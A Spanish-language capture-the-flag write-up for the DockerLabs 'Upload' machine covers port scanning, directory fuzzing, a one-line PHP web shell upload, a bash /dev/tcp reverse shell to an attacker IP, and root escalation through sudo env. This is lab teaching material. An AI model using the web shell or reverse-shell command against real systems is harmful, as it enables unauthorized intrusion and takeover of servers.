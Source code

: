 ```yaml
---
title: Upload - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/upload/upload.png" alt="Captura de pantalla de la máquina Upload en DockerLabs">

Hoy trataremos de explotar la máquina *Upload* de [DockerLabs](https://dockerlabs.es/), de dificultad Fácil. Vamos a utilizar un archivo <mark>.php</mark> con código malicioso y una *reverse shell*.

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh injection.tar
[sudo] contraseña para nmc:     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla

```

## Escaneo NMAP

Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
➤ nmap -sV -p- --min-rate=5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-23 21:49 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.87 seconds
```



Nos percatamos de que está abierto el puerto <mark>80</mark> con el servicio HTTP. Entramos a la web con el puerto 80: <mark>http://172.17.0.2:80</mark> y nos carga un *upload files*.

<img src="/assets/img/DLabs/upload/index-upload.png" alt="Captura de pantalla de la máquina Upload en DockerLabs">

## Fuzzing 

Usamos *Gobuster* para encontrar posibles directorios donde se almacenen los archivos cargados.

```bash
➤ gobuster dir -u http://172.17.0.2/ -w /snap/seclists/900/Discovery/Web-Content/common.txt -t 50 --add-slash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /snap/seclists/900/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/icons/               (Status: 403) [Size: 275]
/server-status/       (Status: 403) [Size: 275]
/uploads/             (Status: 200) [Size: 936]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```



Encontramos un directorio <mark>/uploads/</mark>. Accedemos a él y cargamos una nueva pestaña con el *index.html*. Como ya tenemos la ruta donde ubicar los archivos subidos, trataremos de subir un archivo <mark>.php</mark> con código malicioso. Si lo logramos y este es interpretado por la máquina, podremos ejecutar comandos en el servidor web.

## Explotación

Creamos un archivo llamado <mark>cmd.php</mark>. En este incluimos el siguiente contenido:

```php
<?php
	system($_GET['cmd']);
?>
```



Lo subimos y recargamos el directorio de uploads.

<img src="/assets/img/DLabs/upload/cmd-php-upload.png" alt="Captura de pantalla de la máquina Upload en DockerLabs">

Abrimos el archivo <mark>.php</mark> y observamos que ya nos está interpretando el código, ya que no aparece el texto que incluimos en nuestro *cmd.php*. Confirmamos que es vulnerable y procedemos a ejecutar un comando:

```
http://172.17.0.2/uploads/cmd.php?cmd=whoami
```



<img src="/assets/img/DLabs/upload/whoami-upload.png" alt="Captura de pantalla de la máquina Upload en DockerLabs">

En este caso, al acceder a la URL <mark>http://172.17.0.2/uploads/cmd.php?cmd=whoami</mark>, estamos utilizando el método **GET** para enviar un parámetro llamado *cmd* con el valor *whoami*.

El código PHP en el archivo ejecuta el comando del sistema que se pasa como valor de *cmd*. Por lo tanto, el servidor ejecuta el comando *whoami*, que muestra la identificación del usuario.

## Reverse Shell

El siguiente paso, una vez hemos comprobado que tenemos ejecución remota de comandos sobre la máquina, es ejecutar un comando que nos envíe una consola interactiva a nuestra máquina atacante. A esto se le conoce como *Reverse Shell*. Para ello, nos ponemos en escucha en nuestra máquina atacante, por ejemplo con *netcat*:

```bash
nc -nlvp 443
```



(Es posible que en tu máquina necesites ser root para escuchar por el puerto 443)

A continuación, ejecutamos la *reverse shell* a través de la URL como hicimos anteriormente con el comando *whoami*. Le pasaremos el siguiente valor al parámetro *cmd*:

```
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.09/443 0>%261" 
```



Tras ejecutarlo, comprobamos que hemos ganado acceso a la máquina:

```bash
➤ sudo nc -nlvp 443
[sudo] contraseña para nmc:     
Listening on 0.0.0.0 443
Connection received on 172.17.0.2 39242
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@18f3edf32011:/var/www/html/uploads$
```



## Escalada de privilegios

Una de las primeras comprobaciones que se realiza al ganar acceso a una máquina es ejecutar el comando *sudo -l* para listar los permisos de sudo que tiene el usuario actual. Muestra qué comandos puede ejecutar con privilegios elevados.

```bash
www-data@18f3edf32011:/var/www/html/uploads$ sudo -l
sudo -l
Matching Defaults entries for www-data on 18f3edf32011:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 18f3edf32011:
    (root) NOPASSWD: /usr/bin/env
```



Con *env* podemos lanzarnos directamente una consola, y al poder ejecutarlo como root, esta consola tendrá privilegios de superusuario:

```bash
www-data@18f3edf32011:/var/www/html/uploads$ sudo env /bin/bash
sudo env /bin/bash
whoami
root
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
